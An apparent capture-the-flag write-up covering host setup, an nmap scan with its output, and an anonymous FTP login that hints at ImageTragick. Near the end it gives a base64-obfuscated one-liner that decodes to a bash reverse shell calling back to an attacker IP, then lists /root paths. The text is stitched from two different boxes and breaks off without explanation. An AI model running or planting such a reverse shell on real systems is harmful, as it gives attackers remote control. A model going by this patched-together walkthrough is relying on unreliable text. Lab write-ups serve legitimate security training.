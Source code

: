 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx hackervshacker.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV hackervshacker.thm
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
$ ftp magician.thm                                                                                                           
Connected to magician.thm.
220 THE MAGIC DOOR
Name (magician.thm:kali): anonymous
331 Please specify the password.
Password: 
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
ftp> ls -la
550 Permission denied.
```


echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjcyLjIwOS82NjY2IDA+JjEK|base64 "-d|bash


/root/flask/magiccat.py
/root/root.txt
